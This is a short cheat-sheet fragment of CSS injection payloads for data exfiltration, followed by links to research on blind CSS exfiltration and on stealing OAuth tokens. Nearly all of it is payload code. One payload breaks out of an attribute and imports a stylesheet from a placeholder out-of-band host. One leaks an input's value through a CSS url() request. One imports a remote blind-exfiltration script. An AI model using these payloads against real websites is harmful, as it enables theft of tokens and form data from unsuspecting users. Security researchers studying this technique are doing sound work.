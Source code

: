 
```bash
  "><style>@import'//YOUR-PAYLOAD.oastify.com'</style>
```

```bash
<input value=1337>
<style>
input[value="1337"] {
   --value: url(/collectData?value=1337);
}
input {
   background:var(--value,none);
}
</style>
```


```bash
<style>
@import 'https://portswigger-labs.net/blind-css-exfiltration/start';
</style>
```
- https://blog.voorivex.team/css-data-exfiltration-to-steal-oauth-token
-  https://portswigger.net/research/blind-css-exfiltration
